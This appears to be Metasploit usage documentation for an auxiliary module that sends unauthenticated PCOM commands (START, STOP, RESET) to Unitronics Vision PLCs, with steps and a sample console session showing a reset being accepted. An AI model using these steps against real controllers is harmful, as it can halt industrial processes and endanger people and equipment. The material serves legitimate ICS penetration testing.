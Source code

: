 ## Vulnerable Application

  Unitronics Vision PLCs

## Verification Steps

  1. Do: `use dos/scada/pcom`
  2. Do: `set RHOST=IP` where IP is the IP address of the target
  3. Do: `run` to send PCOM command

 ## Scenarios

   ```
msf > use dos/scada/pcom
msf auxiliary(dos/scada/pcom) > show options

Module options (auxiliary/dos/scada/pcom):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   MODE    RESET            yes       PLC command (Accepted: START, STOP, RESET)
   RHOST                    yes       The target address
   RPORT   20256            yes       The target port (TCP)
   UNITID  0                no        Unit ID (0 - 127)

msf auxiliary(dos/scada/pcom) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf auxiliary(dos/scada/pcom) > run

[*] 192.168.1.1:20256 - Sending RESET command
[*] 192.168.1.1:20256 - Command accepted
[*] Auxiliary module execution completed
msf auxiliary(dos/scada/pcom) >
```
